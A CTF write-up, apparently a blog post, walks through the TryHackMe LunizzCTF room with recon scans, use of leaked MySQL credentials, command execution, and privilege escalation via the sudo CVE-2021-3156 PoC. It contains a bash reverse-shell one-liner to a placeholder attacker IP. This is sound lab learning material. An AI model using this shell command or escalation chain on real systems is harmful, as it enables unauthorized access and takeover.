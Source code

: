 ```yaml
---
layout: post
author: Razor
title: "Tryhackme LunizzCTF (CVE SUDOERS)"
categories: [Tryhackme, Linux]
tags: [medium-box, lfi, boot2root, privilage escalation, web exploitation, cve]     # TAG names should always be lowercase
image: assets/thm_lunizzctf/bg.png
toc: true
---
```


## Introduction
This is partical room from tryhackme entitled `LunizzCTF` with Medium difficulty, but In this Case i want to implement cve sudoers (CVE-2021-3156). In this room we will learn about boot2root, Web Exploitation and Privilage escalation with CVE. room link [here](https://tryhackme.com/room/lunizzctfnd)

>I just tried poc from sudo and I do not recommend you to use this method :D

## Scanning 

### Nmap

First let's scanning this box with nmap : 
```
$ nmap 10.10.106.87 -sC -sV 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 18:54 WIB
Nmap scan report for 10.10.106.87
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:08:db:be:ed:80:d1:ef:a4:b0:a9:e8:2d:e2:dc:ee (RSA)
|   256 79:01:d6:df:8b:0a:6e:ad:b7:d8:59:9a:94:0a:09:7a (ECDSA)
|_  256 b1:a9:ef:bb:7e:5b:01:cd:4c:8e:6b:bf:56:5d:a7:f4 (ED25519)
80/tcp   open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql      MySQL 5.7.32-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.32-0ubuntu0.18.04.1
|   Thread ID: 5
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SupportsLoadDataLocal, SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, FoundRows, LongColumnFlag, ODBCClient, InteractiveClient, SwitchToSSLAfterHandshake, IgnoreSpaceBeforeParenthesis, SupportsCompression, Speaks41ProtocolOld, LongPassword, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: EiV\x0F#\x023-J\x02\x13m\x07M\x7F\x12\x10\x13GW
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.32_Auto_Generated_Server_Certificate
| Not valid before: 2020-12-10T19:29:01
|_Not valid after:  2030-12-08T19:29:01
|_ssl-date: TLS randomness does not represent time
4444/tcp open  tcpwrapped
5000/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.76 seconds
```
After that, nmap show us the port open. As you can see the box have 5 port, i want to check directory with gobuster at webserver. and there is the result : 

```
$ gobuster dir -u 10.10.65.37 -w /usr/share/dirb/wordlists/big.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.65.37
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/01 21:56:18 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/whatever (Status: 301)

```
I found directory `/whatever` there is the page : 

![img](/assets/thm_lunizzctf/bg_1.png)

And we can't put any command in here. After i'm scanning again with extension txt and php i found `instruction.txt` and contain credentials user mysql: 
```
$ gobuster dir -u 10.10.65.37 -w /usr/share/dirb/wordlists/big.txt -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.65.37
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2021/03/01 21:56:59 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/hidden (Status: 301)
/index.php (Status: 200)
/instructions.txt (Status: 200)
```

![img](/assets/thm_lunizzctf/bg_2.png)

## Getting Credentials

### Login mysql
Now let's login mysql with credentials in `instructions.txt` and looking for something interesting. 

![img](/assets/thm_lunizzctf/bg_3.png)

then i found this :

![img](/assets/thm_lunizzctf/bg_4.png)

it's must be value of `/whatever` to command execute we must change the '0' to '1'.

`update runcheck set runornot = 1;`

![img](/assets/thm_lunizzctf/bg_5.png)

Then let's check command in `/whatever`.

![img](/assets/thm_lunizzctf/bg_6.png)

### Getting Shell web

Its work now. Let's put revershell to getting `www-data`, you can use `bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1`.

![img](/assets/thm_lunizzctf/bg_7.png)

We got revershell now

## Privilage Escalations

In This challange i want to use Sudo CVE and you can get it in [here](https://github.com/blasty/CVE-2021-3156).

![img](/assets/thm_lunizzctf/bg_8.png)

Now we can get root easily .there is the little miss configuration in sudo(Lower version) but in the future it will be fixed by the maker. here I just tried poc from sudo and I do not recommend you to use this method.

Happy hacking :D .